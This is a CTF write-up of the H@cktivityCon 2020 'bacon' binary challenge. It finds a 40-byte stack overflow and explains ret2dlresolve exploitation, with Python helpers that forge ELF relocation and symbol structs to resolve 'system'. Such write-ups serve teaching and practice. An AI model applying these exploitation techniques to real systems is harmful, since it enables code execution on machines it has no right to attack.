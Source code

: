 # H@cktivityCon CTF 2020 `Statics and Dynamics` Writeup
Category Binary Exploitation  
Points: 200

## Description
```
A breakfast isn't complete without bacon
```
---

Where I run out of time, get the answer spoiled, and learn about ret2dlresolve

## Recon
We are given a single binary, `bacon`

```
> file bacon
bacon: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=dcf750042c29c6cc101017236958eb97f58483e8, for GNU/Linux 3.2.0, stripped

checksec --file=bacon
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0               1               bacon
```

When run the binary seems to do nothing, taking a line of input and then exiting silently, never once printing to the screen.

A quick look in ghidra reveals this vulnerable function, which is a fairly obvious buffer overflow:

```c
void vulnerable(void)

{
  undefined buffer [1028];
  
  return_top_of_stack();
  read(0,buffer,0x42c);
  return;
}
```

`return_top_of_stack` sets EAX to the value pointed at by ESP. I'm not sure what it's purpose is, but it doesn't seem to affect the exploit at all, so I ignored it.

If you're up on your hex conversions, you might realize that 0x42c is larger than 1028 (0x404), meaning we have a 40 byte overflow. That's not a ton of space, but it turns out to be enough.

Unfortunately, this was as far as I was able to get before I had to start my actual job, and the CTF ended later that day, so I wasn't able to finish in time for points. Also unfortunately, I had the "answer" to the this challenge spoiled by accident for in the discord, so later that night after work I as able to get right to a working solution.

## ret2dlresolve
This binary is challenging because we don't have a way to get data back. It doesn't
write anything to the screen, so nothing like `write` or `puts` is available in the GOT. If we knew the address libc was loaded to we could call them directly, but in order to do that we would need to print it back to us, which leaves a catch 22.

The trick out of this is to hijack the linker's symbol resolution mechanism, and force it load a symbol we want. The binary needs to call this code in order to resolve imported symbols, and so it resides at a known offset. And since the binary isn't PIE, that means we know it's address and can ROP to it ourselves. Since this is the function used by the PLT/GOT to resolve symbols, it also automatically calls the resolved function, using the arguments passed on the stack. Quite convenient!

There's some work to do before we can directly call it, however. The resolver takes a pointer to an Elf32_Rel struct, which in turn needs to have a pointer to an Elf32_Sym struct. The Elf32_Sym struct needs to have a pointer to a string with the name of the symbol we would like to load (in this case, `system`). The Elf32_Rel struct also has to satisfy certain properties (flags being set, etc.)

```python
def build_elf32_sym():
    fake_sym = b""
    fake_sym += p32(SYSTEM_STR_ADDR - STRTAB) # st_name, points to "system"
    fake_sym += p32(0xAAAAAAAA) # st_value (unused)
    fake_sym += p32(0xBBBBBBBB) # st_size (unused)
    fake_sym += p32(0) # st_other; st_other & 3 must equal 0
    return fake_sym

def build_elf32_rel():
    fake_rel = b""
    fake_rel += p32(FAKE_REL_ADDR + 0x100) # r_offset; Arbitraty writeable address
    r_info = (FAKE_SYM_ADDR - SYMTAB) // 16
    r_info = (r_info << 8) | 7
    fake_rel += p32(r_info) # r_info; offset of fake sym struct, 7=R_386_JMP_SLOT
    return fake_rel
```

That's a fair bit to set up! In the exploit script I used multiple calls the `read` to write everything I needed into memory, but this could be done with one if you packed things correctly.

One final bit of trickiness is that the resolver doesn't actually take a direct pointer to the Elf32_Rel struct, it takes an offset from the `JUMPREL` section, the section of memory where the legitimate versions of these structs are stored.

## Flag
The full exploit script is available in `bacon.py`. I unfortunately was not able to solve this challenge during the contest, but the H@cktivity people kindly keep the challenges up for a couple of days after the contest, and I solved this one Friday night.

```
> cat flag.txt
flag{don't_forget_to_take_out_the_grease}
```

## P.S.
`pwntools` can actually do a lot of this for you. A script using the utilities provided by `pwntools` is available in `bacon_pwntools.py`.